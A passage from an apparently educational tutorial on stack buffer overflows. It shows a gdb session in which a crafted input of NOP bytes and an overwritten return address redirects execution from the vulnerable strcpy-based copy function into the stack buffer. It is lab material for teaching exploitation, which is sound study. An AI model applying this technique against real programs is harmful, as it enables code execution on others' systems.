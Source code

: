 ```assembly
    b=0x7fffffffe80e "\220\220\220\220\220\220\220\220\061\062\063\064\065\066\067\070\250\344\377\377\377\177") at overflow.c:15
15	}
```
Let's disassemble the `copy` function
```assembly
(gdb) disassemble copy
Dump of assembler code for function copy:
   0x0000555555555165 <+0>:  push   %rbp
   0x0000555555555166 <+1>:  mov    %rsp,%rbp
   0x0000555555555169 <+4>:  sub    $0x20,%rsp
   0x000055555555516d <+8>:  mov    %rdi,-0x18(%rbp)
   0x0000555555555171 <+12>: mov    -0x18(%rbp),%rdx
   0x0000555555555175 <+16>: lea    -0x8(%rbp),%rax
   0x0000555555555179 <+20>: mov    %rdx,%rsi
   0x000055555555517c <+23>: mov    %rax,%rdi
   0x000055555555517f <+26>: callq  0x555555555030 <strcpy@plt>
   0x0000555555555184 <+31>: lea    -0x8(%rbp),%rax
   0x0000555555555188 <+35>: add    $0x10,%rax
   0x000055555555518c <+39>: mov    (%rax),%rcx
   0x000055555555518f <+42>: lea    -0x8(%rbp),%rax
   0x0000555555555193 <+46>: add    $0x8,%rax
   0x0000555555555197 <+50>: mov    (%rax),%rdx
   0x000055555555519a <+53>: lea    -0x8(%rbp),%rax
   0x000055555555519e <+57>: mov    %rax,%rsi
   0x00005555555551a1 <+60>: lea    0xe60(%rip),%rdi        # 0x555555556008
   0x00005555555551a8 <+67>: mov    $0x0,%eax
   0x00005555555551ad <+72>: callq  0x555555555050 <printf@plt>
=> 0x00005555555551b2 <+77>: nop
   0x00005555555551b3 <+78>: leaveq 
   0x00005555555551b4 <+79>: retq   
End of assembler dump.
```
Now we step through the machine instructions step by step until we execute the `retq` command
```assembly
(gdb) stepi
0x00005555555551b3	15	}
(gdb) x/i $rip
=> 0x5555555551b3 <copy+78>:	leaveq 
(gdb) stepi
0x00005555555551b4	15	}
(gdb) x/i $rip
=> 0x5555555551b4 <copy+79>:	retq   
(gdb) stepi
0x00007fffffffe4a8 in ?? ()
(gdb) x/i $rip
=> 0x7fffffffe4a8:	nop
```
The `retq`operation retrieves the saved `%rip` from the stack and jumps to the start address `0x7fffffffe4a8`of the `buf` variable on the *Stack*. The next machine instruction to be executed will be the `nop` operation encoded into the input string.
